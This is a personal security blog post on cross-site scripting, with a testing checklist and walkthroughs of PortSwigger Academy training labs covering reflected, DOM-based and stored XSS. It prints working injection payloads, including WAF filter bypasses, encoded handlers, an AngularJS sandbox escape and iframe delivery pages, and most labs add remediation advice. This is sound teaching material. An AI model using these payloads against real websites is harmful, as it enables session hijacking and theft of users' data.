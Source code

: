 ```yaml
---
layout: post
title: XSS (Cross site scripting)
subtitle: Victim visit malicious URL/site to trigger the payload made of JavaScript. Causing their session to be controlled or data to be stolen
date: 2025-09-15 19:15
author: Ren Sie
comments: true
category: script-input
thumbnail-img: /assets/img/githubpost/xxs_thumb.png
---
```


Cross-site scripting (XSS) is a web security flaw where attackers inject malicious scripts into trusted websites, which then execute in the browsers of unsuspecting users. This exploitation allows attackers to steal sensitive data, hijack user sessions, or manipulate website content by taking advantage of web applications that do not properly validate or sanitize user input.


{: .box-note}
**Note:** 💡 During the testing, use `print()` `prompt("text")` instead of `alert()` since `alert()` is commonly detected and filtered. <br> When testing for XXS, test for html injection first because it’s more likely to work
E.g., \<h1\>test\</h1\>

## Checklist
<details markdown="1">
  <summary>Click me to expand checklist</summary>  

1. **Is input reflected in the response?**

2. **Can we inject HTML?**
   - E.g., `https[://]victim[.]com/search?user=<img src=x onerror=prompt("XSS")>`
    
3. **Any weaknesses in the Content Security Policy (CSP)?**
   - Use of unsafe directives which allow execution of inline scripts or eval() functions, bypassing CSP protections. <br> E.g.,`Content-Security-Policy: script-src 'self' 'unsafe-inline' 'unsafe-eval';`
   - Allowing broad sources or wildcards in directives (e.g., script-src), which permits potentially untrusted external scripts to run. <br> E.g., `Content-Security-Policy: script-src *;`
   - Inclusion of compromised or vulnerable third-party domains in trusted sources, such as JSONP endpoints that can be exploited to inject malicious scripts. <br> E.g., `https[://]third-party_domain[.]com/jsonp?callback=prompt("xss is available!")`
   - Omitting strict directives for resources like object-src or failing to restrict nonces and hashes properly which can allow script injection.
   - Weak or predictable nonces (e.g., 'nonce-12345') that attackers can guess or reproduce to bypass CSP restrictions.
 
4. **Can we use events (e.g. onload, onerror)?**
   - `<body onload="prompt('XSS via onload!')"> Welcome to the website! </body>`
   - `<a href="https[://]trusted[.]com/search?user=<img src=x onerror=prompt("XXS Available")>"> Click me! </a>`

5. **Are there any filtered or escaped characters?**
   - E.g., `<`, `>`, `"`, `'`, `javascript:`, `alert()`
   - Refer to [XSS Filter Evasion Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)

6. **Is input stored and then later rendered?**

7. **Can we inject into non-changing values (e.g. usernames, comments, etc.)?**
   - E.g., web application allows user input and stores them without proper sanitization.

8. **Any input collected from a third party (e.g. account information)?**
   - Third-party inputs refer to any data or content that comes from an external source (via third-party api) or from other users.

9. Is the version of the framework or dependency vulnerable?
   - [OWASP Dependency-Check](https://github.com/dependency-check/DependencyCheck)
   - [OWASP Dependency-Check Installation and Scanning First project](https://www.youtube.com/watch?v=hWiI700y3J0)

</details>

## 1. Reflected XSS
Inject payload into the HTTP request. And once the web server receive the request, it will response with the payload to sender’s browser. It relies on URL to make user fall for the attack.

### Labs (Reflected XSS)
Just for demostration, I completed some labs on [PortSwigger Academy](https://portswigger.net/web-security/all-labs#cross-site-scripting) to show how this vulnerability can lead to:

<details markdown="1">
<summary>Click me to expand the labs</summary>  

  _**1. Reflected XSS into attribute with angle brackets HTML-encoded**_  
  The application contains a reflected XSS vulnerability in the search blog feature, where angle brackets are HTML-encoded. I inject an attribute via XSS that triggers an alert function.
  
  <details markdown="1">
  <summary>Click me to expand the process</summary>
  
  1. Enter random input (e.g., test123) in the user input (URL query)
     ~~~
     URL: https[://]web-security-academy[.]net/?search=test123
     ~~~
  
  2. Utilize search function in inspection tab, and search for input (e.g., test123)
     ~~~
     Result: <input type="text" placeholder="Search the blog..." name="search" value="test123">
     ~~~
  
  3. After learning that our input is within a double-quoted attribute, we can try to bypass the double-quoted attributes by breaking out of the attribute value with the injection of double quotes or equivalent encodings, and then adding the HTML events that triggers the payload.
     ~~~
     URL: https[://]web-security-academy[.]net/?search=test123" onmouseover="alert(test)
     Result: <input type="text" placeholder="Search the blog..." name="search" value="test123" onmouseover="alert(test)">
     ~~~

     {: .box-note}
     **Note:** The `value` attribute is closed early by the injected quote, and `onmouseover="alert(1)` is interpreted as a new `onmouseover` attribute on the \<input\> tag.

  4. Once I hover the cursor over the search bar, it triggers the alert. I identify the XSS vulnerability.

  </details>
  -

  _**2. Reflected XSS into a JavaScript string with angle brackets HTML encoded**_  
  In this instance, the application is vulnerable to reflected XSS in the search query tracking functionality, where angle brackets are encoded. The reflection occurs inside a JavaScript string. I break out of the string and triggers the `prompt()` function, to demonstrate the vulnerability.
  
  <details markdown="1">
  <summary>Click me to expand the process</summary>
  
  1. I enter random input (e.g., test) in the user input (search bar)
  
  2. Utilize search function in inspection tab, and search for input (e.g., test). I find that the input is directly past into the function.
     ```javascript
     var searchTerms = 'test';
       document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
     ```
  
  3. Now I learn that my input is inside the single quote, I try breaking out the single quote with:
     ~~~
     Input: '-prompt("TestXSS")-' # breaks the single quote
           or \\'-prompt("TestXSS")// # If single quotes are escaped
     ~~~
  
  4. The message pops up after I send the query, which confirms that this instance is vulnerable to XSS. <br> Just to double-check, I pull out the script from the inspection tab.
     ```javascript
     var searchTerms = ''-prompt("TestXSS")-'';
     document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
     ```
  </details>
  -

  _**3. Reflected DOM XSS**_  
  In this instance, a script on the page processes reflected data (user input) with `eval()` without any sanitization and ultimately writes it to a dangerous sink.
  
  <details markdown="1">
  <summary>Click me to expand the process</summary>

  1. First, I find the script used in the web application under the Network tab on the Inspection page.
     - The `xhr.open` method sends a GET request (with user input retrieved from `path + window.location.search`) and fetches data from the server using `XMLHttpRequest`.
     - Then it parses the JSON response (`this.responseText`) with `eval()`.
     - Lastly, it dynamically create and display search results (`displaySearchResults`) in the HTML DOM.

     ```javascript
     var xhr = new XMLHttpRequest();
     xhr.onreadystatechange = function() {
          if (this.readyState == 4 && this.status == 200) {
          eval('var searchResultsObj = ' + this.responseText);
          displaySearchResults(searchResultsObj);
          }
     };
     xhr.open("GET", path + window.location.search);
     xhr.send();
     ```
   
  2. I send a test request and intercept the response using Burp Proxy.
     ```json
     {"results":[],"searchTerm":"test"}
     ```

  3. Because the script uses `eval()` to process the response, I can insert the `prompt()` function (see JSON Values in the [JSON Syntax](https://www.w3schools.com/js/js_json_syntax.asp))."  
     Now that I know the JSON structure, I create an input to break out of the expected structure in Burp Repeater.

  4. In the response to my first payload attempt `test\"-prompt()}//`, the double quote is escaped by the application, so I add an extra backslash (`\`) to bypass it.
     ~~~
     1-st_Request: ?search=test"-prompt()}//
     Response: {"results":[],"searchTerm":"test\"-prompt()}//"}
     ~~~
     ~~~
     2-nd_Request: ?search=test\"-prompt()}//
     Response: {"results":[],"searchTerm":"test\\"-prompt()}//"}
     ~~~

     {: .box-note}
     **Note:** The [Arithmetic Operators](https://www.w3schools.com/programming/prog_operators_arithmetic.php#gsc.tab=0) (`-`) forces `prompt()` to be parsed and executed as part of an expression. And ensuring it is executed immediately, not just ignored.
     And the `//` comments out whatever is after it.

  </details>
  -

  _**4. Reflected XSS into HTML context with most tags and attributes blocked**_  
  In this instance, the `/?search` parameter is being reflected into the page as HTML without proper contextual encoding or sanitization, and the WAF’s tag/attribute filtering is insufficient, so I bypass the filter and executes `prompt()`.

  <details markdown="1">
  <summary>Click me to expand the process</summary>

  1. After using general XSS testing payloads, I learn that the WAF is blocking some HTML tags to prevent common XSS.
     ~~~
     Payload: <img src="0" onerror="prompt()">
     Respond: "Tag is not allowed"
     ~~~

  2. To find out which tag isn't blocked, I used Burp Intruder with all tag options as payload (retrieved from the [XSS cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)). The result tells me that `<body>` is not blocked by the WAF.
     ~~~
     Burp Intruder:
     GET /?search=<Payload Position> HTTP/2
     ~~~

  3. After enclosing payloads within the `<body>` tag, I learn that the WAF is also blocking some attributes.
     ~~~
     Payload: <body onload="prompt()">
     Respond: "Attributes is not allowed"
     ~~~

  4. Repeating step 2, but this time I copy the events from the XSS cheat sheet. I got some events that comes back with 200 OK. 
     ~~~
     Burp Intruder:
     GET /?search=<body%20<Payload Position>=prompt()>
     ~~~

  5. To make the exploitation more realistic, after going through the unfiltered event attributes:
     - I used an `<iframe>` to embeds this vulnerable webpage (`src="https[://]vulnerable[.]com/`).
     - The query parameter `/?search` then load the URL-encoded payload `%22%3E%3Cbody+onresize=prompt()%3E`
     - [this.style.width](https://www.w3schools.com/jsref/prop_style_width.asp) to adjust the iframe’s size, which will trigger the `onresize` event and `prompt()`.

     ~~~
     <iframe src="https[://]vulnerable[.]com/?search=%22%3E%3Cbody+onresize=prompt()%3E" onload=this.style.height='88px'></iframe>
     ~~~

  6. Because I bypass the WAF filter with non-filterd tag and attribution, the function `prompt()` will be executed once someone clicks on the link.

  **Suggestion**: Remediate by [treating user input strictly as data](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html#xss-defense-philosophy) (encode/escape for the HTML context or render search terms as text nodes, never raw HTML), apply a server‑side allowlist sanitizer (or a vetted library such as [DOMPurify](https://www.npmjs.com/package/dompurify) when sanitization is required), enforce a strong [Content Security Policy](https://cheatsheetseries.owasp.org/cheatsheets/Content_Security_Policy_Cheat_Sheet.html) that disallows inline event handlers/scripts, and [harden WAF normalization/rules](https://docs.oracle.com/en-us/iaas/Content/WAF/Protections/protections_management.htm) to catch decoded event-attribute payloads.

  </details>
  -

  _**5. Reflected XSS into HTML context with all tags blocked except custom ones**_  
  In this instance, I find that the WAF blocks standard tags but allows custom element names. Because browser will parse custom tags as valid elements (`<cust-foo>`) and allow attributes (`onfocus`), I bypass the WAF and execute a prompt with custom tag, and other components to simulate the exploit in a real‑world scenario.

  <details markdown="1">
  <summary>Click me to expand the process</summary>

  1. I started by testing the input form, and the response indicated that the tag was blocked.
     ~~~
     Request: GET /?search=<script>test</script>
     Response: "Tag is not allowed"
     ~~~

  2. Then I tried using a custom tag (`<cust-foo>`); this time, I did not receive any error. This confirms that the WAF does not block [custom tag](https://matthewjamestaylor.com/custom-tags).
     ~~~
     Request: GET /?search=<cust-foo>test</cust-foo>
     Response: HTTP/2 200 OK
     ~~~

  3. The browser treats custom tags (`<cust-foo>`) as valid HTML elements and parses their attributes and event handlers (`onmouseover`), which execute JavaScript when triggered by moving the cursor over a specific spot.
     ~~~
     Request: GET /?search=<cust-foo onmouseover='prompt("xss")'>Move your mouse here</cust-foo>
     Response: A pop-up "xss"
     ~~~

  4. To make the exploitation more realistic, I used custom tags with some components to create an .html file. As soon as a user opens it, they woulbe be redirected to the designated page and the prompt was executed:
     - `window.location.assign()`: Redirect the user's browser to a new URL while keeping the current page in the session history (Back button available).
     - `id`: Gives the element a unique identifier in the DOM (e.g., a1).
     - `tabindex`: Makes the element focusable, which can be used with `onfocus` events.
     - `onfocus`: The JavaScript will be triggered when the element (`id`) receives focus.
     - `#a1`: Call out and focus on the element `a1`.

     ```javascript
     <script>
     window.location.assign("https[://]vulnerable[.]com/?search=<cust-tag id=a1 tabindex=1 onfocus='prompt("I am focusable")'>#a1")
     </script>
     ```

  **Suggestion**: Use a proven HTML sanitizer (e.g. [DOMPurify](https://www.npmjs.com/package/dompurify)) on output that must contain HTML (server-side). Configure [allowlists](https://help.ivanti.com/ht/help/en_US/ISM/2025/admin-user/Content/Configure/SetUpWizard/Configure%20Allowed%20Tags%20and%20Attribute.htm), only permit required tags and attributes, and explicitly exclude all event handler attributes (e.g., on*). Apply the appropriate [encoding](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html#output-encoding) based on where the data will be used (body, attribute, JavaScript string, URL, CSS), and do not rely on a single generic encoding for all contexts. Prefer [framework helpers](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html#framework-security) and templating engines that provide automatic, correct output escaping rather than hand‑rolling your own escaping logic. Remove unnecessary HTML rendering of user‑supplied content whenever possible. If a field is a search query or otherwise simple text, return it as plain text (properly escaped) instead of rendering it as HTML with tags.
  
  </details>
  -

  _**6. Reflected XSS with some SVG markup allowed**_  
  In this instance, I discovered a reflected XSS vector that bypasses the WAF by using certain unfiltered tags and event. By inserting those, I was able to execute JavaScript, demonstrating a reflected XSS bypass through SVG + SMIL animation events.

  <details markdown="1">
  <summary>Click me to expand the process</summary>

  1. I started by testing the input form, and the response indicated that the tag was blocked.
     ~~~
     Request: GET /?search=<script>prompt()</script>
     Response: "Tag is not allowed"
     ~~~

  2. To find out which tag isn't blocked, I used Burp Intruder with all tag options as payload (retrieved from the [XSS cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)). The result tells me that `<animatetransform>`, `<image>`, `<svg>`, `<title>` are not blocked by the WAF.
     ~~~
     Burp Intruder:
     GET /?search=<Payload Position> HTTP/1.1
     ~~~

  3. Next, to find out which event is not filtered. I repeated step 2 but copied the events from the [XSS cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet). I use `<image>` as example since I know it is not filtered, then I received only `onbegin` events that returned 200 OK.
     ~~~
     Burp Intruder:
     GET /?search=<image+src="x"+<Payload Position>=1> HTTP/1.1
     ~~~

  5. After some [researches](https://developer.mozilla.org/en-US/docs/Web/API/SVGAnimationElement/beginEvent_event, "SVGAnimationElement: beginEvent event"), I learned that `<svg>` and `<animatetransform>` can be used with `onbegin`. To test it out, I inserted `prompt()`, and the application responded with a pop‑up window containing my text, which proves that I bypassed the WAF's filters and executed a test script.
     ~~~
     <svg><animatetransform onbegin='prompt("Is this vulnerable to XSS?")'>
     ~~~
   
  **Suggestion**: Treat any HTML or SVG in user input as untrusted. Ensure [server‑side output encoding](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html#output-encoding) is applied. If you must allow HTML/SVG, sanitize server‑side with a library that understands and safely handles SVG (e.g., [DOMPurify](https://www.npmjs.com/package/dompurify)). Deploy a strict [Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/CSP) that avoids unsafe-inline and blocks inline script execution and data:/javascript: URLs (use script-src 'self' plus nonces/hashes if inline scripts are required).

  </details>
  -

  _**7. Reflected XSS in canonical link tag**_  
In this instance, I discovered that untrusted input from the URL query string is reflected into canonical link tag in the page source. By injecting [accesskey](https://www.w3schools.com/jsref/prop_html_accesskey.asp, "HTML DOM Element accessKey") attribute,  I was able to prove code execution in the page context after pressing the keystroke triggered JavaScript.

  <details markdown="1">
  <summary>Click me to expand the process</summary>

  1. I opened the Inspector and found the canonical link in the source code.
     ~~~
     <link rel="canonical" href="https://web-security-academy.net/">
     ~~~

  2. I inserted a test string (`?test`) into the URL and saw my input rendered directly in the canonical link.
     ~~~
     <link rel="canonical" href="https[://]web-security-academy[.]net/?test">
     ~~~

  3. I then added an `accesskey` attribute to the `<link>` tag, and when the designated key was pressed it triggered the `onclick` event. The results showed:
     - Spaces in my input were encoded (`%20`) in the URL, but they were rendered as extra encoded spaces (` %20`) in the source code.
     - A single quotes were encoded (`%27`) in the URL, but they rendered as double quotes in the source code.
     ~~~
     Request: /?test' accesskey='x' onclick='prompt(test)
     Response: <link rel="canonical" href="https[://]web-security-academy[.]net/?test" %20accesskey="x" %20onclick="prompt(test)">
     ~~~

  4. To bypass this, I removed the spaces from my input. After pressing Ctrl+Alt+X, a popup displayed my message.
     ~~~
     Request: /?test'accesskey='x'onclick='prompt(&quot;XSS&nbsp;vulnerable?&nbsp;YES!&quot;)
     Response: <link rel="canonical" href="https[://]web-security-academy[.]net/?test" accesskey="x" onclick="prompt(&quot;XSS&nbsp;vulnerable?&nbsp;YES!&quot;)">
     ~~~

  **Suggestion**: Don't reflect user input directly into HTML, ensure [server‑side output encoding](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html#output-encoding) is applied. [Sanitize & validate input](https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html#implementing-input-validation), if input used as a URL, validate against an allow-list of permitted patterns. Use [DOM methods](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html#rule-6-populate-the-dom-using-safe-javascript-functions-or-properties) to create and manage elements, attributes, and text nodes safely. Add/strengthen [Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/CSP). Lastly, use [HTTP security headers](https://cheatsheetseries.owasp.org/cheatsheets/HTTP_Headers_Cheat_Sheet.html#security-headers).

  </details>
  -

  _**8. Reflected XSS into a JavaScript string with single quote and backslash escaped**_  
  In this instance, I discover a XSS vulnerability in the search tracking code. The application inserts user input directly into a JavaScript single-quoted string and escapes single quotes with a backslash, but it does not prevent breaking out of the surrounding script context (angle bracket > not escaped). I terminate the `<script>` tag and injecting a new `<script>` block.

  <details markdown="1">
    <summary>Click me to expand the process</summary>

  1. I start by testing the input (`test_input`) to see where it is rendered in the source code, then I find my input is in a search function.
     ```javascript
     <script>
       var searchTerms = 'test_input';
       document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
     </script>
     ```
   
  2. To test whether I can break out of the single quote (`'`), I try entering a single quote, but it is escaped with a backslash (`'\`).
     ```javascript
     <script>
       var searchTerms = '\'test_input';
       document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
     </script>
     ```
   
  3. I try to escape the backslash (`\\'`), but it doesn’t work.
     ```javascript
     <script>
       var searchTerms = '\\\'test_input';
       document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
     </script>
     ```
   
  4. Then I discover that the angle bracket isn’t escaped, so I close the existing tag with `</script>` and insert a new one `<script>prompt();</script>`. A popup then displays my message.
     ```javascript
     <script>
       var searchTerms = '</script><script>prompt("Am I vulnerable to XSS");</script>
       ';document.write('
     ```
   
  **Suggestion**: Validate and sanitize user input on client side to reject or clean inputs containing malicious characters or script tags. When inserting user input into JS strings, use [output encoding](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html#output-encoding) that safely escapes all special characters that could break the context, not just single quotes and backslashes. Don't place variables into [dangerous contexts](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html#dangerous-contexts) as even with output encoding. Implement [Content Security Policy](https://cheatsheetseries.owasp.org/cheatsheets/Content_Security_Policy_Cheat_Sheet.html#defense-against-xss) that limits the sources and inline script execution. 

  </details>
  -

  _**9. Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped**_  
This lab contains a reflected cross-site scripting vulnerability in the search query tracking functionality where angle brackets and double are HTML encoded and single quotes are escaped.


</details>

## 2. Dom-Based XSS
Client-side has vulnerable JavaScript. It doesn’t involve with the server-side, completely rely on client’s browser to execute the payload.
One quick check is turn on the developer tool, input and execute a simple prompt or alert script, see if there’s any network interaction with the server.

{: .box-note}
**Note:** 🚨 Inspecting Network page in the developer tab while sending input. If there’s no external communication happens, it indicates it is Dom-Based XXS.

### Labs (Dom-Based XSS)
Just for demostration, I completed some labs on [PortSwigger Academy](https://portswigger.net/web-security/all-labs#cross-site-scripting) to show how this vulnerability can lead to:

<details markdown="1">
  <summary>Click me to expand the labs</summary>  

  _**1. DOM-based XSS in document.write sink using source location.search**_  
  The target application use `document.write()` function to display content from `location.search`, which comes from the URL query string. Allows users to modify the URL, and to inject and execute arbitrary scripts in the page.
  
  <details markdown="1">
  <summary>Click me to expand the process</summary>  
  
  1. Enter random input (e.g., 123456) in the user input (URL query)
     ~~~
     https[://]web-security-academy.net/?search=123456
     ~~~
  
  2. Right-click on the webpage and open the inspection tab
  
  3. Press `Crtl+F` to open search function in inspection tab, and search for input (e.g., 123456)
     ~~~
     Result: <img src="/resources/images/tracker[.]gif?searchTerms=123456">
     ~~~
  
  4. After knowing the syntax. We can add a closing angle bracket to close up the img tag, and add a new tag with the payload. I use HTML encoding to bypass the filter.
     ~~~
     URL: "><script src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041"></script>
     Result: <img src="/resources/images/tracker[.]gif?searchTerms=">
          <script src="x" onerror="javascript:alert('XSS')"></script>
     ~~~

  </details>
  -

  _**2. DOM XSS in innerHTML sink using source location.search**_  
  The application It assigns data from `location.search` to `innerHTML`, which updates the contents of a `<div>`. Since the URL can be controlled by the user, they can inject malicious HTML or scripts.
  
  <details markdown="1">
  <summary>Click me to expand the process</summary>  
  
  1. Enter random input (e.g., 123456) in the user input (URL query)
     ~~~
     https[://]web-security-academy.net/?search=123456
     ~~~
  
  2. Right-click on the webpage and open the inspection tab
  
  3. Press `Crtl+F` to open search function in inspection tab, and search for input (e.g., 123456)
     ~~~
     Result: <span id="searchMessage">123456</span>
     ~~~
  
  4. After knowing the syntax. I can add a closing tag to close up `<span>`, and add a new `<img>` tag with the payload. I use HTML encoding to bypass the filter.
       ~~~
       URL: https[://]web-security-academy[.]net/?search=</span><img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">
       Result: <span id="searchMessage"><img src="x" onerror="javascript:alert('XSS')"></span> <span>'</span> == $0
     ~~~
  
  </details>
  -
  
  _**3. DOM XSS in jQuery anchor href attribute sink using location.search source**_  
  In this instance, jQuery’s `$` selector is used to find a link and set its `href` using data from `location.search`, which comes from the URL query string.
  
  <details markdown="1">
  <summary>Click me to expand the process</summary>
  
  1. Right-click on the webpage and open the inspection tab. I search for `location.search`, which led me to this script:
     ```javascript
     $(function() {
       $('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
     });
     ```
  
  2. I also notice that the URL contains the `returnPath` query parameter, which aligns with the script. Which uses this query parameter to set the href attribute of the backlink.
     ~~~
     URL: https[://]web-security-academy[.]net/feedback?returnPath=/
     ~~~
  
  3. Insert the payload into the `returnPath` query parameter.
     ~~~
     URL: https[://]web-security-academy[.]net/feedback?returnPath=javascript:prompt(document.cookie)
     Result: <a id="backLink" href="javascript:prompt(document.cookie)">Back</a>
     ~~~
  
  </details>
  -

  _**4. DOM XSS in jQuery selector sink using a hashchange event**_  
  There is a DOM-based XSS vulnerability on the home page, where jQuery’s `$()` selector is used to auto-scroll to a post, with the title passed through `location.hash`.
  
  <details markdown="1">
  <summary>Click me to expand the process</summary>
  
  1. Firstly, I search for `$()` in the inspection tab, and I find the syntax for this function. Which listens for hash changes in the URL (`/#`) and scrolls the corresponding blog post into view based on the hash value.
     ```javascript
     $(window).on('hashchange', function(){
       var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
       if (post) post.get(0).scrollIntoView();
     });
     ```
  
  2. I append a simple XSS test payload with a hashtag to the URL, and the print function is triggered. The XSS vulnerability in this application is confirmed.
     ~~~
     URL: https[://]web-security-academy[.]net/#<img src=x onerror=print()>
     ~~~

  3. In the case that I want to deliver this payload to others, I utilize `iframe`, `onload`, `img src`, and `onerror` to trigger the payload once they open the page.
     ~~~
     URL: <iframe src="https[://]web-security-academy[.]net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
     ~~~

     {: .box-note}
     **Note:** The `onload` attribute of the `iframe` runs JavaScript to append the print payload directly into the URL fragment after the page loads. The vulnerable page inside the iframe then reads this fragment (<img src=x onerror=print()>) and executes the injected payload.
  
  </details>
  -

_**5. DOM XSS in document.write sink using source location.search inside a select element**_  
  This instance contains a DOM-based XSS vulnerability in the stock checker functionality. It leverages the `document.write` function to output data to the page, using data from `location.search` that user can control through the website URL. The input data is between the `<option>` tag, I break out of it and calls the `prompt` function.
  
  <details markdown="1">
  <summary>Click me to expand the process</summary>
  
  1. Firstly, I discover the function in the inspection tab (`right-click on the webpage > inspect`).
     And I learn that the script builds a `<select name="storeId">` dropdown by reading a `storeId` query parameter from the URL and, if present, adding it as the selected `<option>` before adding the three hard-coded stores (skipping any duplicate).
     It uses `document.write` with the raw URL value, so unescaped input could be reflected into the page; creating elements and setting textContent/value.
     ```javascript
     var stores = ["London", "Paris", "Milan"];
     var store = (new URLSearchParams(window.location.search)).get('storeId');
     document.write('<select name="storeId">');
     if(store) {
       document.write('<option selected>' + store + '</option>');
     }

     for(var i = 0; i < stores.length; i++) {
       if(stores[i] === store) {
           continue;
       }
       document.write('<option>' + stores[i] + '</option>');
     }

     document.write('</select>');
     ```

  2. After discovering that the function takes user input in the `storeId` parameter, I add the `storeId` parameter after the original `productId` parameter with a `&`. I then send a test input (e.g., test) to see the application's response. As expected, I am able to add a new selected `<option>`.
     ~~~
     URL: https[://]web-security-academy[.]net/product?productId=2&storeId=test
     Result:
     <select name="storeId">
       <option selected>test</option> # I create this option by inserting the parameter and value in the URL.
       <option>London</option>
       <option>Paris</option>
       <option>Milan</option>
     ~~~
  
  3. Remember this syntax `document.write('<option>' + stores[i] + '</option>');` from the function. What I can do is close the first `<option>` tag, inject new HTML tags and event attributes, and then open another `<option>` tag. I try injecting a couple of new HTML tags, and both work.
     Now, I can confirm that the stock search query function on this web application is vulnerable to XSS.
     ~~~
     Payload-1: storeId=test</option><iframe src="javascript:prompt('work?');"></iframe><option>
     Payload-2: storeId=test</option><script>prompt('work?')</script><option>
     ~~~

  </details>
  -

  _**6. DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded**_  
  This instance contains a DOM-based XSS vulnerability in an `AngularJS` expression within the search functionality. I inject a method (e.g. `$on`/`$eval`) that is available in the current scope to bypass AngularJS's security filter, append the `.constructor` property to create a `Function` object (`function(user_input)`), and then call it with `()` to execute the created function.

  {: .box-note}
  **Note:** Refer to [AngularJS DOM XSS Attack](https://www.youtube.com/watch?v=QpQp2JLn6JA) for more details walkthrough

  <details markdown="1">
  <summary>Click me to expand the process</summary>

  1. After did some researches ([AngularJS - Escaping the Expression Sandbox](https://spring.io/blog/2016/01/28/angularjs-escaping-the-expression-sandbox-for-xss), [Function() constructor](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Function/Function), [Object.prototype.constructor](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Object/constructor), ) I come up with a couple of different payloads to pybass the security filter.
     ~~~
     Payload-1: \{\{$eval.constructor(prompt('AngularJS_xss'))()\}\}
     Payload-2: \{\{$on.constructor('prompt("AngularJS_xss")')()\}\}
     ~~~
  
  </details>
  -

</details>

## 3.Store-Based XSS
Payload is stored in the database, and victim’s browser will retrieve it once it visit the page. For instance:  
1. In the attacker’s browser leave html injection comment: \<h1\>test\</h1\>.
2. Visit the same page from victim’s browser

![store_xxs.png](/assets/img/githubpost/xxs_1.png)

### Labs (Store-Based XSS)
Just for demostration, I completed some labs on [PortSwigger Academy](https://portswigger.net/web-security/all-labs#cross-site-scripting) to show how this vulnerability can lead to:

<details markdown="1">
  <summary>Click me to expand the labs</summary>  

  _**1. Stored XSS into anchor href attribute with double quotes HTML-encoded**_  
  This instance contains a stored XSS vulnerability in the comment section. I submit a comment that triggers an alert when the author’s name is clicked.
  
  <details markdown="1">
  <summary>Click me to expand the process</summary>
  
  1. In the comment section, there are four fields (Comment, Name, Email, Website). After filling out all the fields and submitting my comment, I notice that the Name section contains an external link, which is the website I enter while filling out the form.

  2. I use the search function in the inspection tab to look for the website I enter. And I find:
     ~~~
     Result: <a id="author" href="Website.com">Name</a>
     ~~~

  3. Now, I determine that the href attribute accepts user input, so I enter a simple payload into the Website field. It is confirmed that the alert will be triggered when I click on the Name.
     ~~~
     Website: javascript:alert('Zebra!')
     Result: <a id="author" href="javascript:alert('Zebra!')">World Smartest Zebra</a>
     ~~~
   
  </details>
  -

  _**2. Stored DOM XSS**_  
  In this instance, the comment rendering is vulnerable to stored DOM‑based XSS because `escape()` only replaces the first `<`, `>` so I bypass it which leaves later tags unescaped, allowing arbitrary script execution when the page inserts comments into the DOM.

  <details markdown="1">
  <summary>Click me to expand the process</summary>

  1. Firstly, I look into the script used in the web application under the Network tab on the Inspection page. And I find there is an escape function using [replace()](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/replace)
     ```javascript
     function escapeHTML(html) {
         return html.replace('<', '&lt;').replace('>', '&gt;');
     }
     ```

     {: .box-note}
     **Note:** A string pattern will only be replaced once. To perform a global search and replace, use a regex with the g flag, or use replaceAll() instead.

